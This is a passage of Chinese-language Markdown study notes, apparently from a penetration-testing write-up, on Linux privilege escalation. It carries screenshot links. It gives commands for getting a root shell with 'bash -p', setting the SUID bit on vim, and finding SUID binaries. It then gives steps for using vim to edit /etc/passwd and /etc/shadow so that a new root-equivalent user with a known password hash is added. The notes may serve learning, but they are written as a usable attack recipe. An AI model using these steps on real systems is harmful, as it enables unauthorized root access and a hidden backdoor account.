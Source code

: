 ![image-20241017180431301](操作系统提权/image-20241017180431301.png)	

```
该命令即可提权。
bash -p
```

![image-20241017180511886](操作系统提权/image-20241017180511886.png)	

```
VIM提权 
利用vim提权的思路是修改/etc/passwd文件和/etc/shadow，为自己添加一个有root权限的用户
chmod u+s /usr/bin/vim
查看哪些命令具有suid权限
find / -user root -perm -4000 -print 2>/dev/null
```

![image-20241017180734112](操作系统提权/image-20241017180734112.png)	

```
利用vim提权
第一种方式，利用vim添加账号
vim /etc/passwd   添加特权用户
vim /etc/shadow  添加新用户密码
先打开passwd配置文件，复制root用户那一行，然后把root改成需要创建的新用户名称,这样就具备root权限
再打开shadow文件，同理可以找一些已知的密文密码复制进去即可。
```

![image-20241017180928428](操作系统提权/image-20241017180928428.png)	
